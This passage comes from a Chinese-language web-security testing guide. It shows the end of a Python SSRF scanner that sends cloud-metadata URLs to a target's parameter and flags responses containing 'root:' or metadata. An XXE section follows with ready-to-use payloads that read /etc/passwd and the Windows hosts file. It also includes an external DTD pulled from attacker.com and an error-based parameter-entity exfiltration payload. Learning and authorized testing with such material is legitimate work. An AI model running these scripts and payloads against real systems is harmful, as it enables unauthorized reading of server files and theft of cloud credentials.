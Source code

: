 ```python
        "http://metadata.google.internal/",
        "http://169.254.169.254/computeMetadata/v1/"
    ]
    
    vulnerable = []
    
    for payload in payloads:
        try:
            params = {param_name: payload}
            response = requests.get(target_url, params=params, timeout=10)
            
            # 檢查回應內容
            if any(indicator in response.text.lower() for indicator in 
                   ['meta-data', 'ssh-2.0', 'root:', 'linux version', 'metadata']):
                vulnerable.append(payload)
                print(f"[+] 可能的SSRF: {payload}")
                print(f"    回應長度: {len(response.text)}")
                print(f"    狀態碼: {response.status_code}")
                
        except requests.RequestException as e:
            print(f"[-] 請求失敗 {payload}: {e}")
    
    return vulnerable

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("用法: python3 ssrf_test.py <target_url> <param_name>")
        print("範例: python3 ssrf_test.py http://target.com/proxy url")
        sys.exit(1)
    
    target = sys.argv[^1]
    param = sys.argv[^2]
    
    print(f"[*] 測試SSRF漏洞: {target}")
    vulnerabilities = test_ssrf(target, param)
    print(f"\n[*] 發現 {len(vulnerabilities)} 個潛在SSRF漏洞")
```


### 8.3 XML External Entity (XXE)

**8.3.1 XXE基本概念**：

XXE是一種攻擊，利用XML處理器中的漏洞來存取本地或遠程內容。

**8.3.2 XXE檢測技術**：

```xml
<!-- 基本XXE測試 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>&xxe;</root>

<!-- Windows系統檔案 -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/windows/system32/drivers/etc/hosts">]>

<!-- 外部DTD -->
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]>

<!-- 參數實體 -->
<!DOCTYPE foo [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```